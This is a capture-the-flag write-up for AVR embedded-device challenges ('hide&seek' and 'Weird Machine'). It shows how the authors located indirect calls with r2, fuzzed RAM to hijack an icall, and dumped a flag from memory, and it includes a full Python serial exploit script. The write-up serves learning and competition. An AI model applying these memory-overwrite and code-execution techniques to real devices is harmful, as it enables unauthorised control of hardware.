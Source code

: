 !!But!!<br>
Behind the "FLAG:" string @ 0x700, there are nothing (so sad..)<br>
To sum up, we can read RAM, write anywhere..the last thing we can do is to get code execution.<br>  
Then we fuzz everything in the range 0x100-0x1e4 to get something,
and after a lot of try, we got nothing..(so sad x2).<br>
The way to have an execution with this AVR is to watch every icall.<br>
With r2: 
```
:> /c icall
0x00000466   # 2: icall (can't exploit)
0x00001d5e   # 2: icall (\o/)
0x000027d6   # 2: icall (don't care)
```
The icall takes values in RAM with r31:r30 = \*0x16c:*0x16b according to the
value @ 0x16a.<br>
Then, we fuzz the value @ 0x16a in order to get something call!<br>
Result: the value 0x1e seems to be a good choice, because we got crash :)<br>
Then we tried many (random) addresses and we found a good setting with 0x1000
as parameter (payload = "1e0010" @ 0x16a).<br>
Then we rewrite the RAM until 0x1e4 to dump the string @ 0x700 to recover the
flag \o/.

```python
from rhme_serial import *

s = rhme_serial()
s.xfer("ee\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("04600000"+"00"*(0x16a-6)+"1200\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("1e0010\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("00000c02fb0c03f40704280805720806540d07a10d08c4080901090a44090b810900be090dfb090e2b0a0f6a0a10a90a11020b12ee0d135107141807153607165b0b17a40b18c10019de0b1afb0b1b180c1c500c1d770c1e950c00414243c4c5464748494a4b4c4d52139455569798595a5b5c1f4e4f50511d1e00000007\n")
print s.xfer("d\n")
s.close()
```

<a name="weird"></a>
## Weird Machine (Exploit - 400 pts)
This challenge is the continuation of hide&seek, but harder (normally).<br>
The behavior is exactly like hide&seek, you're beginning with the loader and you
can enter in debug mode by sending a wrong command.<br>
Before looking elsewhere, we tried the last exploit (h&s) and it didn't work..<br>
But it seems that the code execution still worked and the flag is still @ 0x700
in RAM..We must fuzz this !<br>
And .....nyan..... Kaboooom !!<br>
if you replace 0x1000 by 0x710, you got the flag :)
